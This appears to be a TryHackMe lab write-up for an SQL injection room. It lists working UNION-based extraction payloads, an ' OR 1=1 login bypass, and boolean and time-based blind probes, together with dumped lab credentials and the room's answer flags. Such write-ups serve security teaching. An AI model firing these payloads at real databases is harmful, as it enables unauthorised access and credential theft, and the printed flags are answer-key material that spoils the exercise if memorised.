# TryHackMe [SQL Injection](https://tryhackme.com/room/sqlinjectionlm)
### References
* Hamdan, M. (2021). SQL Injection Vulnerability Explained [YouTube Video]. In YouTube. https://youtu.be/VIkVqvo97Hk
## In-Band SQLi
### What is the flag after completing level 1?
```
0 UNION SELECT 1,2,database()
sqli_one
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
article,staff_users
id,password,username
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
admin:p4ssword
martin:pa$$word
jim:work123
```
**Flag 1**: `THM{SQL_INJECTION_3840}`
## Blind SQLi
### Authentication Bypass
#### What is the flag after completing level 2?
```
' OR 1=1;--
```
**Flag 2**: `THM{SQL_INJECTION_9581}`
#### Boolean-Based
```
admin123' UNION SELECT 1;-- 
{"taken": false}
admin123' UNION SELECT 1,2,3;--
{"taken": true}
admin123' UNION SELECT 1,2,3 where database() like '%';--
{"taken": true}
admin123' UNION SELECT 1,2,3 where database() like 's%';--
{"taken": true}
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
{"taken": false}
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
{"taken": true}
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
{"taken": false}
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';
{"taken": false}
admin123' UNION SELECT 1,2,3 from users where username like 'a%
{"taken": true}
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
{"taken": false}
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '3845
```
**Flag 3**: `THM{SQL_INJECTION_1093}`
#### Time-Based
```
admin123' UNION SELECT SLEEP(5),2 where database() like 'sqli_%';--
admin123' UNION SELECT SLEEP(5),2 from users where username='admin' and password like '4961%';--
```
**Flag 3**: `THM{SQL_INJECTION_MASTER}`